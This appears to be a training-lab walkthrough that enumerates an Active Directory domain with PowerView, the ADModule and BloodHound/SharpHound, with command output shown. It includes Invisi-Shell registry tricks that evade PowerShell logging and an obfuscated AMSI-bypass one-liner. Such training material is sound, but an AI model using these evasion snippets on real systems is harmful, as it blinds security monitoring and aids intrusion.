




# Learning Objective 01

## Tasks

1. **Enumerate following for the `dollarcorp` domain:**
	- **Users**
	- **Computers**
	- **Domain Administrators**
	- **Enterprise Administrators**
2. **Use BloodHound to identify the shortest path to Domain Admins in the `dollarcorp` domain**
3. **Find a file share where `studentx` has Write permissions**

---

## Solution

1. **Enumerate following for the `dollarcorp` domain:**
	- **Users**
	- **Computers**
	- **Domain Administrators**
	- **Enterprise Administrators**

We can use PowerView for enumerating the domain. Please note that all the enumeration can be done with Microsoft's ActiveDirectory module as well.

**Using PowerView module**

Start a PowerShell session using Invisi-Shell to avoid enhanced logging. Run the below command from a command prompt on the student VM.


`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1

C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
The operation completed successfully.

C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
The operation completed successfully.

C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.

C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\AD\Tools>
```

Load PowerView in the PowerShell session.

`Import-Module C:\AD\Tools\PowerView.ps1`

 **Enumerate users in the current domain using PowerView**
 
`Get-DomainUser`:
```
pwdlastset                    : 11/11/2022 6:33:55 AM
logoncount                    : 8790
badpasswordtime               : 2/11/2025 12:17:41 AM
description                   : Built-in account for administering the computer/domain
distinguishedname             : CN=Administrator,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass                   : {top, person, organizationalPerson, user}
lastlogontimestamp            : 2/4/2025 6:19:15 AM
samaccountname                : Administrator👤
logonhours                    : @{Tuesday=System.Collections.Hashtable; Friday=System.Collections.Hashtable; Wednesday=System.Collections.Hashtable;
                                Saturday=System.Collections.Hashtable; Thursday=System.Collections.Hashtable; Monday=System.Collections.Hashtable;
                                Sunday=System.Collections.Hashtable}
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : 12/31/1600 4:00:00 PM
countrycode                   : 0
whenchanged                   : 2/4/2025 2:19:15 PM
instancetype                  : 4
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectguid                    : d954e824-f549-47c2-9809-646c218cef36
lastlogoff                    : 12/31/1600 4:00:00 PM
whencreated                   : 11/12/2022 5:59:01 AM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata         : {2/11/2025 8:22:58 AM, 2/11/2025 8:22:58 AM, 2/11/2025 7:22:58 AM, 2/11/2025 7:22:58 AM...}
usncreated                    : 8196
usnchanged                    : 457882
memberof                      : {CN=Group Policy Creator Owners,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local, CN=Domain
                                Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local, CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local}
lastlogon                     : 2/11/2025 1:10:23 AM
badpwdcount                   : 0
cn                            : Administrator
msds-supportedencryptiontypes : 0
objectsid                     : S-1-5-21-719815819-3726368948-3917688648-500
primarygroupid                : 513
iscriticalsystemobject        : True
name                          : Administrator

[SNIP]

logoncount            : 72
badpasswordtime       : 12/4/2024 9:10:02 PM
distinguishedname     : CN=app admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : app admin
lastlogontimestamp    : 2/19/2025 10:08:28 PM
userprincipalname     : appadmin
samaccountname        : appadmin👤
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/20/2025 6:08:28 AM
instancetype          : 4
usncreated            : 38196
objectguid            : 6115db58-7505-481e-ab17-4ce61a06b425
sn                    : admin
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 11/14/2022 12:51:10 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {12/5/2024 12:47:28 PM, 11/14/2022 12:51:10 PM, 1/1/1601 12:00:01 AM}
givenname             : app
usnchanged            : 648918
lastlogon             : 2/20/2025 10:08:38 PM
badpwdcount           : 0
cn                    : app admin
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-1117
primarygroupid        : 513
pwdlastset            : 11/14/2022 4:51:10 AM
name                  : app admin

[SNIP]
```

`whoami`:
```
dcorp\student422
```

`Get-DomainUser -Name student422`:
```
logoncount            : 10
badpasswordtime       : 2/11/2025 1:14:26 AM
distinguishedname     : CN=student422,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : student422
lastlogontimestamp    : 2/8/2025 9:14:18 PM
userprincipalname     : student422@dollarcorp.moneycorp.local
samaccountname        : student422👤
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/9/2025 5:14:18 AM
instancetype          : 4
usncreated            : 307616
objectguid            : 3c631361-8660-452d-849c-59269b9c99fc
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 1/16/2025 3:59:30 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {1/16/2025 3:59:30 PM, 1/1/1601 12:00:00 AM}
givenname             : student422
usnchanged            : 483797
memberof              : CN=RDP Users,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local📌
lastlogon             : 2/11/2025 1:10:54 AM
badpwdcount           : 406
cn                    : student422
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-20607
primarygroupid        : 513
pwdlastset            : 1/16/2025 7:59:38 AM
name                  : student422
```

To list a specific property of all the users, we can use the `select-object` (or its alias `select`) cmdlet.

`Get-DomainUser | select -ExpandProperty samaccountname`:
```
Administrator👤
Guest
krbtgt👤
sqladmin👤
websvc👤
srvadmin👤
appadmin👤
svcadmin👤
testda
mgmtadmin👤
ciadmin👤
sql1admin👤
studentadmin

[SNIP]

student422👤

[SNIP]
```

 **Enumerate computers in the current domain using PowerView**

Now, to enumerate member computers in the domain we can use `Get-DomainComputer`.

`hostname`:
```
dcorp-std422
```

`Get-DomainComputer | select -ExpandProperty dnshostname`:
```
dcorp-dc.dollarcorp.moneycorp.local🖥️
dcorp-adminsrv.dollarcorp.moneycorp.local🖥️
dcorp-appsrv.dollarcorp.moneycorp.local🖥️
dcorp-ci.dollarcorp.moneycorp.local🖥️
dcorp-mgmt.dollarcorp.moneycorp.local🖥️
dcorp-mssql.dollarcorp.moneycorp.local🖥️
dcorp-sql1.dollarcorp.moneycorp.local🖥️
dcorp-stdadmin.dollarcorp.moneycorp.local
dcorp-std416.dollarcorp.moneycorp.local
dcorp-std417.dollarcorp.moneycorp.local
dcorp-std418.dollarcorp.moneycorp.local

[SNIP]

dcorp-std422.dollarcorp.moneycorp.local🖥️

[SNIP]
```

`notepad C:\AD\Tools\servers.txt`:
```
dcorp-dc.dollarcorp.moneycorp.local
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-appsrv.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-mgmt.dollarcorp.moneycorp.local
dcorp-mssql.dollarcorp.moneycorp.local
dcorp-sql1.dollarcorp.moneycorp.local
dcorp-stdadmin.dollarcorp.moneycorp.local
dcorp-std416.dollarcorp.moneycorp.local
dcorp-std417.dollarcorp.moneycorp.local
dcorp-std418.dollarcorp.moneycorp.local
```

 **Enumerate domain administrators in the current domain using PowerView**
 
To see details of the "Domain Admins" group.

`Get-DomainGroup -Identity "Domain Admins"`:
```
grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins👥
whenchanged            : 11/14/2022 5:06:37 PM
objectsid              : S-1-5-21-719815819-3726368948-3917688648-512
name                   : Domain Admins
cn                     : Domain Admins
instancetype           : 4
usnchanged             : 40124
dscorepropagationdata  : {2/11/2025 8:22:58 AM, 2/11/2025 7:22:58 AM, 2/11/2025 6:22:58 AM, 2/11/2025 5:22:58 AM...}
objectguid             : 7d766421-bcf7-40b1-a970-17da0bedb489
description            : Designated administrators of the domain
memberof               : {CN=Denied RODC Password Replication Group,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local,
                         CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local}
member                 : {CN=svc admin👤,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local, CN=Administrator👤,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local}
usncreated             : 12315
whencreated            : 11/12/2022 5:59:41 AM
distinguishedname      : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass            : {top, group}
objectcategory         : CN=Group,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```

To enumerate members of the "Domain Admins" group.

`Get-DomainGroupMember -Identity "Domain Admins"`:
```
GroupDomain             : dollarcorp.moneycorp.local
GroupName               : Domain Admins👥
GroupDistinguishedName  : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
MemberDomain            : dollarcorp.moneycorp.local
MemberName              : svcadmin👤
MemberDistinguishedName : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-719815819-3726368948-3917688648-1118📌

GroupDomain             : dollarcorp.moneycorp.local
GroupName               : Domain Admins👥
GroupDistinguishedName  : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
MemberDomain            : dollarcorp.moneycorp.local
MemberName              : Administrator👤
MemberDistinguishedName : CN=Administrator,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-719815819-3726368948-3917688648-500📌
```

 **Enumerate enterprise administrators in the current domain using PowerView**

To enumerate members of the "Enterprise Admins" group.

`Get-DomainGroupMember -Identity "Enterprise Admins"`:
```
```
❌

Since, this is not a forest root domain, the above command will return nothing. We need to query the root domain as "Enterprise Admins" group is present only in the root of a forest.

`Get-Domain`:
```
Forest                  : moneycorp.local🏰
DomainControllers       : {dcorp-dc.dollarcorp.moneycorp.local}
Children                : {us.dollarcorp.moneycorp.local}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : moneycorp.local
PdcRoleOwner            : dcorp-dc.dollarcorp.moneycorp.local
RidRoleOwner            : dcorp-dc.dollarcorp.moneycorp.local
InfrastructureRoleOwner : dcorp-dc.dollarcorp.moneycorp.local
Name                    : dollarcorp.moneycorp.local🏛️
```

`Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local`:
```
GroupDomain             : moneycorp.local
GroupName               : Enterprise Admins👥
GroupDistinguishedName  : CN=Enterprise Admins,CN=Users,DC=moneycorp,DC=local
MemberDomain            : moneycorp.local
MemberName              : Administrator👑
MemberDistinguishedName : CN=Administrator,CN=Users,DC=moneycorp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-335606122-960912869-3279953914-500📌
```
🚩

**Using Active Directory module (ADModule)**

Let's import the ADModule.

**Note:** Remember to use it **from a different PowerShell session** started by using Invisi-Shell. If you load PowerView and the ADModule in same PowerShell session, some functions may not work.


`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll`

`Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1`

 **Enumerate users in the current domain using ADModule**

`Get-ADUser -Filter *`:
```
DistinguishedName : CN=Administrator,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : d954e824-f549-47c2-9809-646c218cef36
SamAccountName    : Administrator👤
SID               : S-1-5-21-719815819-3726368948-3917688648-500
Surname           :
UserPrincipalName :

DistinguishedName : CN=Guest,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
Enabled           : False
GivenName         :
Name              : Guest
ObjectClass       : user
ObjectGUID        : caa69143-af4c-4551-af91-e9edd1059080
SamAccountName    : Guest👤
SID               : S-1-5-21-719815819-3726368948-3917688648-501
Surname           :
UserPrincipalName :

[SNIP]
```

`Get-ADUser -Filter * | select -ExpandProperty Samaccountname`:
```
Administrator👤
Guest
krbtgt👤
mcorp$
US$
ecorp$
sqladmin👤
websvc👤
srvadmin👤
appadmin👤
svcadmin👤
testda
mgmtadmin👤

[SNIP]

student422👤

[SNIP]
```

We can list specific properties. Let's list `samaccountname` and `description` for the users. Note that we are listing all the properties first using the `-Properties` parameter.

`Get-ADUser -Filter * -Properties * | select Samaccountname,Description`:
```
Samaccountname Description
-------------- -----------
Administrator  Built-in account for administering the computer/domain
Guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
mcorp$
US$
ecorp$
sqladmin
websvc
srvadmin
appadmin
svcadmin       Account to be used for services which need high privileges.
testda         Not what the name implies ;)

[SNIP]
```

 **Enumerate computers in the current domain using ADModule**

`Get-ADComputer -Filter *`:
```
DistinguishedName : CN=DCORP-DC,OU=Domain Controllers,DC=dollarcorp,DC=moneycorp,DC=local
DNSHostName       : dcorp-dc.dollarcorp.moneycorp.local📌
Enabled           : True
Name              : DCORP-DC
ObjectClass       : computer
ObjectGUID        : d698b7ab-f29e-461b-9bc9-24a4a131c92d
SamAccountName    : DCORP-DC$🖥️
SID               : S-1-5-21-719815819-3726368948-3917688648-1000
UserPrincipalName :

DistinguishedName : CN=DCORP-ADMINSRV,OU=Applocked,DC=dollarcorp,DC=moneycorp,DC=local
DNSHostName       : dcorp-adminsrv.dollarcorp.moneycorp.local📌
Enabled           : True
Name              : DCORP-ADMINSRV
ObjectClass       : computer
ObjectGUID        : 2e036483-7f45-4416-8a62-893618556370
SamAccountName    : DCORP-ADMINSRV$🖥️
SID               : S-1-5-21-719815819-3726368948-3917688648-1105
UserPrincipalName :

[SNIP]
```

`Get-ADComputer -Filter * | select -ExpandProperty NDNSHostNameame`:
```
dcorp-dc.dollarcorp.moneycorp.local🖥️
dcorp-adminsrv.dollarcorp.moneycorp.local🖥️
dcorp-appsrv.dollarcorp.moneycorp.local🖥️
dcorp-ci.dollarcorp.moneycorp.local🖥️
dcorp-mgmt.dollarcorp.moneycorp.local🖥️
dcorp-mssql.dollarcorp.moneycorp.local🖥️
dcorp-sql1.dollarcorp.moneycorp.local🖥️
dcorp-stdadmin.dollarcorp.moneycorp.local

[SNIP]

dcorp-std422.dollarcorp.moneycorp.local🖥️

[SNIP]
```

 **Enumerate domain administrators in the current domain using ADModule**

`Get-ADGroupMember -Identity 'Domain Admins'`:
```
distinguishedName : CN=Administrator,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
name              : Administrator
objectClass       : user
objectGUID        : d954e824-f549-47c2-9809-646c218cef36
SamAccountName    : Administrator👤
SID               : S-1-5-21-719815819-3726368948-3917688648-500

distinguishedName : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
name              : svc admin
objectClass       : user
objectGUID        : 244f9c84-7e33-4ed6-aca1-3328d0802db0
SamAccountName    : svcadmin👤
SID               : S-1-5-21-719815819-3726368948-3917688648-1118
```

 **Enumerate enterprise administrators in the current domain using ADModule**

`Get-ADGroupMember -Identity 'Enterprise Admins' -Server moneycorp.local`:
```
distinguishedName : CN=Administrator,CN=Users,DC=moneycorp,DC=local
name              : Administrator
objectClass       : user
objectGUID        : bff03156-2c42-4e55-a21c-07eb868cd5f8
SamAccountName    : Administrator👑
SID               : S-1-5-21-335606122-960912869-3279953914-500
```
🚩

2. **Use BloodHound to identify the shortest path to Domain Admins in the `dollarcorp` domain**

For BloodHound, we will try with both the **Legacy** version and **Community Edition**.

**BloodHound Legacy** (**to be done only after getting admin privileges**, see *Learning Objective 05*)

BloodHound uses neo4j graph database, so that needs to be set up first.

**Note:** Exit BloodHound once you have stopped using it as it uses good amount of RAM. You may also like to stop the neo4j service if you are not using BloodHound.

We need to install the neo4j service. Unzip the archive `C:\AD\Tools\neo4j-community-4.1.1-windows.zip`.


`cd C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\bin`

`neo4j.bat install-service`:
```
Neo4j service installed.
```

`neo4j.bat start`:
```
Directories in use:
home:         C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5
config:       C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\conf
logs:         C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\logs
plugins:      C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\plugins
import:       C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\import
data:         C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\data
certificates: C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\certificates
licenses:     C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\licenses
run:          C:\AD\Tools\neo4j-community-4.4.5-windows\neo4j-community-4.4.5\run
Starting Neo4j.
Started neo4j. It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Once the service is started, browse to `http://localhost:7474`.

Enter the username: "neo4j" and password: "neo4j".


You need to enter a new password. Let's use "BloodHound" as the new password.

Now, open BloodHound Legacy with `C:\AD\Tools\BloodHound-win32-x64\BloodHound-win32-x64\BloodHound.exe` and provide the following details:
- URL: "bolt://localhost:7687"
- Username: "neo4j"
- Password: "BloodHound"


Run a BloodHound ingestor to gather data and information about the current domain. Run the following commands to run SharpHound collector.


`cd \AD\Tools`

`C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors\SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets --excludedcs`:
```
2025-02-12T03:53:00.6768720-08:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2025-02-12T03:53:01.4453287-08:00|INFORMATION|Resolved Collection Methods: Group, GPOLocalGroup, Session, Trusts, ACL, Container, ObjectProps, SPNTargets
2025-02-12T03:53:01.5976213-08:00|INFORMATION|Initializing SharpHound at 3:53 AM on 2/12/2025
2025-02-12T03:53:02.5045906-08:00|INFORMATION|Flags: Group, GPOLocalGroup, Session, Trusts, ACL, Container, ObjectProps, SPNTargets
2025-02-12T03:53:03.2233498-08:00|INFORMATION|Beginning LDAP search for dollarcorp.moneycorp.local
2025-02-12T03:53:03.4420981-08:00|INFORMATION|Producer has finished, closing LDAP channel
2025-02-12T03:53:03.4577228-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-02-12T03:53:33.5202039-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 31 MB RAM
2025-02-12T03:53:47.4576725-08:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-02-12T03:53:47.6920727-08:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-02-12T03:53:47.8639682-08:00|INFORMATION|Status: 212 objects finished (+212 4.818182)/s -- Using 44 MB RAM
2025-02-12T03:53:47.8639682-08:00|INFORMATION|Enumeration finished in 00:00:44.6509114
2025-02-12T03:53:48.0201761-08:00|INFORMATION|Saving cache with stats: 179 ID to type mappings.
 186 name to SID mappings.
 0 machine sid mappings.
 5 sid to domain mappings.
 0 global catalog mappings.
2025-02-12T03:53:48.0670552-08:00|INFORMATION|SharpHound Enumeration Completed at 3:53 AM on 2/12/2025! Happy Graphing!
```


Once all the data is uploaded to BloodHound, search for `Shortest Paths to Domain Admins` in `dollarcorp` domain (press CRTL to toggle labels).


**Analysis using Web UI of BloodHound CE**

We need to run a compatible SharpHound collector for BloodHound CE.

**Remember that you have read-only access to the shared BloodHound CE UI in the lab. There is no need or way to upload the data collected to the shared instance.**

`C:\Sharphound\SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs`:
```
[SNIP]
```

As BloodHound CE consumes high amounts of RAM, in the lab, you have read-only access to a shared BloodHound CE (`https://crtpbloodhound-altsecdashboard.msappproxy.net/`).

Provide the following credentials to the Microsoft login page:
- Username: "crtpreader@altsecdashboard.onmicrosoft.com"
- Password: "ARe/**************"

This would bring you to the BloodHound CE login page. Provide the same set of credentials as above to the BloodHound login page and you will be able to access the UI.


**This instance of BloodHound CE already has the database populated. Feel free to play with the data!**

To solve the task, proceed as follows.

In the web UI, click on `Cypher` -> click on the folder icon -> `Pre-built Searches` -> `Active Directory` -> (scroll down) -> `Shortest paths to Domain Admins`.


**Issue with Local Admin and BloodHound Legacy**

BloodHound legacy does not show Local Admin edge in GUI. The last version where it worked was 4.0.3. It is present in the `Tools` directory as `BloodHound-4.0.3_old`. You can use it the same way as BloodHound legacy above.

Make sure to use the collector from `BloodHound-4.0.3_old` with UI in `BloodHound-4.0.3_old`. These are not compatible with BloodHound 4.2.0.

Run the below command **in a new PowerShell session after bypassing .NET AMSI**.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`dir C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors`:
```
    Directory: C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          1/7/2025   2:43 AM                DebugBuilds
-a----         5/22/2024   1:37 AM          59563 AzureHound.ps1
-a----         5/22/2024   1:37 AM         833024 SharpHound.exe
-a----         5/22/2024   1:37 AM         974235 SharpHound.ps1
```

`cd C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors`

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

`Import-Module .\SharpHound.ps1`

`Invoke-BloodHound -CollectionMethod All`:
```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '833024 bytes loaded from Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral,
PublicKeyToken=null' or one of its dependencies. An attempt was made to load a program with an incorrect format."
At C:\AD\Tools\BloodHound-4.0.3_old\BloodHound-master\Collectors\SharpHound.ps1:549 char:2
+     $Assembly = [Reflection.Assembly]::Load($UncompressedFileBytes)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : BadImageFormatException

You cannot call a method on a null-valued expression.
